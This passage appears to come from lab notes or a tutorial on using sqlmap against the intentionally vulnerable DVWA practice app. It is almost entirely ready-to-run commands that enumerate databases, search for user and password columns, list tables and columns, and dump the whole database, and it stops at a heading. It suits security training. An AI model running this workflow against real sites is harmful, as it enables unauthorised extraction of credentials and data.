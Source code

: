 - Enumerate available databases.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbs
```

#### 2.2.2 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --search -D dvwa -C user,password
```

- Retrieve relation (tables)

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa --tables
```

- Count number of tables

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa --tables --count
```

#### 2.2.3 - Columns Enumeration

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa -T users --columns
```

TODO: Test these last two flags respectively of how it works.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --statements
```

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --comments
```

## 03 - Dump Database

### 3.1 - Dump the whole database

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa --dump-all
```

### 3.2 - Dump the specific tables and columns
